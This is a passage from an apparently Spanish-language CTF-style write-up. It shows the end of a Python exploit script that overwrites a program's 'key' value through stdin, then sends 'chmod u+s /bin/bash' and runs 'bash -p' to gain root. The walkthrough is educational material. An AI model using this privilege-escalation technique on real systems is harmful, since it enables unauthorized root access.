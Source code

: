 ```python
)

# 8. Enviar el payload al programa a través de stdin.
# El primer payload sobrescribe la ubicación de la 'key' con el valor 0xdead.
process.stdin.write(payload + b"\n")
process.stdin.flush()  # Aseguramos que el payload se envíe correctamente.

# 9. Ahora que hemos sobrescrito la 'key', enviamos el comando adicional que se ejecutará,
# en este caso, 'chmod u+s /bin/bash' para cambiar los permisos de bash y permitir ejecutar bash como root.
process.stdin.write(command + b"\n")
process.stdin.flush()

# 10. Esperamos a que termine el proceso.
# Esto asegura que el binario termine su ejecución antes de finalizar el script.
process.wait()
```

Si lo ejecutamos vemos lo siguiente:

```shell
python3 exploit.py
```

Info:

```shell
Escribe la contraseña: Estás en modo administrador (key = dead)
Escribe un comando:
```

Vamos a ver si ha funcionado listando los permisos de la `bash`:

```shell
ls -la /bin/bash
```

Info:

```
-rwsr-xr-x 1 root root 1265648 Mar 29  2024 /bin/bash
```

Vemos que efectivamente a funcionado, por lo que haremos lo siguiente:

```shell
bash -p
```

Y con esto seremos `root`, por lo que ya habremos terminado.
